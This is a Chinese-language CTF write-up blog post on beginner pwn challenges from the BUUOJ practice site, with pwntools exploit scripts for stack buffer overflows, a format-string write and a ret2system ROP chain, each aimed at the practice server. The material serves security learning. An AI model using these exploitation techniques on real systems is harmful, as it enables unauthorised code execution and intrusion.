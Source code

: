 title: Pwn-Write up
author: John Doe
tags: []
categories: []
date: 2023-07-06 17:35:00
---
# test_your_nc1

直接nc题目给的网站和端口

![upload successful](./images/pasted-660.png)

# rip1

![upload successful](./images/pasted-661.png)
首先checksec题目给的附件，然后使用IDA进行静态分析

![upload successful](./images/pasted-663.png)
发现两个函数

![upload successful](./images/pasted-664.png)
f5发现危险函数gets，可能存在栈溢出漏洞

![upload successful](./images/pasted-665.png)
再看一下fun函数，发现为可以执行shell的函数

<li>接下来思路就清晰了，我们需要利用gets函数获取一个长字符串覆盖rip来控制程序流到fun()函数
  
{% codeblock lang:PY %}
from pwn import *

#p = process('./pwn1')
p = remote('node4.buuoj.cn', 29466)

payload = b'a' * 15 + p64(0x401186) 
#gdb.attach(p)

p.sendline(payload)

p.interactive()
{% endcodeblock %}

# warmup_csaw_2016

![upload successful](./images/pasted-666.png)
首先checksec软件，发现没有保护，64位，进入IDA反编译查看

shift+f12查看字符串

![upload successful](./images/pasted-667.png)
发现`cat flag.txt`

![upload successful](./images/pasted-669.png)
找到该函数

![upload successful](./images/pasted-670.png)
地址为0x40060D，然后对main进行分析

![upload successful](./images/pasted-671.png)
长度为0x40，构造exp，64位程序都要+8

```py
from pwn import *
#p=process("./warmup_csaw_2016")
p=remote("node4.buuoj.cn",26857)

payload=b'a' * (0x40 + 8) + p64(0x40060D)
p.sendline(payload)
p.interactive()
```
![upload successful](./images/pasted-672.png)

# ciscn_2019_n_1

首先checksec

![upload successful](./images/pasted-673.png)
进入IDA分析

![upload successful](./images/pasted-674.png)
main里调用了一个func()，去看一下func()

![upload successful](./images/pasted-675.png)
func()对v2做了一个比较`if ( v2 == 11.28125 )`就执行`cat /flag`

但是这里用到了一个gets()，故可能存在栈溢出漏洞，且v1为0x30

![upload successful](./images/pasted-676.png)
找到执行`cat /flag`的地址为0x4006BE，构造exp
```py
from pwn import *
#p=process("./ciscn_2019_n_1")
p=remote("node4.buuoj.cn",25436)

payload=b'a' * (0x30 + 8) + p64(0x4006BE)
p.sendline(payload)
p.interactive()
```

![upload successful](./images/pasted-677.png)

# pwn1_sctf_2016

![upload successful](./images/pasted-678.png)
首先checksec程序

![upload successful](./images/pasted-679.png)
进入IDA查看main发现一个vuln()

![upload successful](./images/pasted-680.png)
查看栈结构发现s的长度为0x3c，即60个字节，而输入被限制在32个字节内，但是每个I可以被替换成you，所以输入60÷3=20个I就能让栈溢出，然后加上get_flag()函数的起始地址，即可执行`cat flag.txt`

![upload successful](./images/pasted-681.png)
找到地址，构造EXP，32位都要+4
```py
from pwn import *
#p=process("./pwn1_sctf_2016")
p=remote("node4.buuoj.cn",29407)

payload=b'I' * 20 + b'a' * 4 + p64(0x8048F13)
p.sendline(payload)
p.interactive()
```
![upload successful](./images/pasted-682.png)

# jarvisoj_level0

首先checksec

![upload successful](./images/pasted-683.png)
进入IDA分析

![upload successful](./images/pasted-684.png)
通过main函数可以推断出该程序大致功能，打印一个hello wordl，使用shift+f12查找字符串

![upload successful](./images/pasted-685.png)
发现/bin/sh和system，双击跟进，ctrl+x找到调用 /bin/sh 的函数，找到了程序里的后门

![upload successful](./images/pasted-687.png)
后门地址0x400596

![upload successful](./images/pasted-688.png)
根据这里可以推出程序存在栈溢出，ida给我们分析出来buf的大小是0x80，这边read读入0x200，构造payload
```
from pwn import *
#p=process("./level0")
p=remote("node4.buuoj.cn",29784)

payload=b'a' * (0x80 + 8) + p64(0x400596)
p.sendline(payload)
p.interactive()
```

![upload successful](./images/pasted-689.png)

# [第五空间2019 决赛]PWN5 1


![upload successful](./images/pasted-690.png)
程序开了canary，IDA反编译一下

![upload successful](./images/pasted-691.png)
猜测是格式化字符串漏洞，检测一下偏移

![upload successful](./images/pasted-692.png)
这里建议使用`%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p`这种方式测偏移，如上图较为清楚

![upload successful](./images/pasted-693.png)
可以看到输出来是第十位

![upload successful](./images/pasted-694.png)
通过pwndbg定位到aaaa的输入地址，可以通过格式化字符串把之前的随机数写成跟我们输入的 password 一样的都是 0x1

```py
from pwn import *
#p=process("./pwn")
p=remote("node4.buuoj.cn",26392)

payload = fmtstr_payload(10,{0x804C044:0x1}) #使用 fmtstr_payload 函数生成一个格式化字符串攻击载荷。fmtstr_payload 函数接受两个参数，第一个参数是格式化字符串的偏移量（offset），第二个参数是一个字典，其中键是目标地址，值是你想要写入的值。在这个例子中，攻击载荷将在偏移量 10 处将地址 0x804C044 的值修改为 0x1。
p.recvuntil('name:')
p.sendline(payload)
p.recvuntil('passwd:')
p.sendline("1")
p.interactive()
```
![upload successful](./images/pasted-695.png)

# jarvisoj_level2 1

![upload successful](./images/pasted-747.png)
32位，程序只开了NX，栈上不可执行
进入IDA，对main函数反编译

![upload successful](./images/pasted-748.png)
跟一下这个function

![upload successful](./images/pasted-749.png)
buf数组只给了0x88的大小，但是最多可以读入0x100个字节的数据，所以可以构造ROP
shift+f12找到/bin/sh进去

![upload successful](./images/pasted-750.png)
地址为0x0804A024
找到function的返回地址

![upload successful](./images/pasted-751.png)
故exp：
```
from pwn import *
b=process("./level2")
#b=remote

payload = b'a' * 0x88 + b'a' * 4 + p32(0x08048320) + p32(0x08048320) + p32(0x0804a024)

b.send(payload)
b.interactive()
```

